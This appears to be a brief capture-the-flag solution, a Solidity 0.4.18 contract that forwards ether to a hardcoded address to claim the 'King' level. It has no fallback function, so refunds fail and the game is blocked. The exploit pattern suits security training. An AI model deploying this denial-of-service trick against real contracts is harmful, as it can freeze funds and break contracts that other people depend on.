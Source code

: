 pragma solidity ^0.4.18;

contract King {

    address Acontract = 0x63521161a41c20da374485b1c1708386b6f8cefa;
    
    function ThaKing() public payable {
        Acontract.call.value(msg.value)();
    }
    
}

Send solution and enter amount of wei larger than the one on the main contract.